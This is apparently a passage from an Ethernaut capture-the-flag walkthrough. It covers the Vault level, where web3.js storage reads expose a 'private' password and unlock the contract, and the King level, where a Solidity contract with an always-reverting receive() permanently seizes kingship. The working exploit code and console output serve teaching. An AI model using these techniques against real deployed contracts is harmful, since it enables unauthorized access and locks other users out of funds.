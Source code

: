 Well, private variables in solidity are not really private, by default all state variables in solidity are stored in storage in slots of length 32 bytes, and we can access the storage using **web3.js**! For reading about storage in detail you can refer to [this](https://medium.com/coinmonks/a-quick-guide-to-hack-private-variables-in-solidity-b45d5acb89c0) blog.

```solidity
> await web3.eth.getStorageAt("0x0a9b7e8dF1fD7751B70631Baf9c0314010B42CaE", 1)
< '0x412076657279207374726f6e67207365637265742070617373776f7264203a29'

> await contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")

> await contract.locked()
< false
```

# 9. King

We have to prevent others from reclaiming kingship once we claim it even though they send higher amount of money. So we can make a contract king having a `receive()` which reverts all received transactions having ether. Let's find out the current prize value first.

```jsx
> x = await contract.prize()

> x.toString()
< '1000000000000000'
```

Will use Remix to create a contract transferring an equal amount of ether to it and will claim kingship using that contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./King.sol";

contract Test {
    King public king;

    constructor() public {
        king = King(0xF4c4D4685143B5580eecF0C1A6ae18FC41c934B0);
    }

    function send() public {
        (bool sent, bytes memory data) = address(king).call{
            value: address(this).balance
        }("");
        require(sent, "transaction failed");
    }

    function getMoney() public payable {}

    receive() external payable {
        revert();
    }
}
```
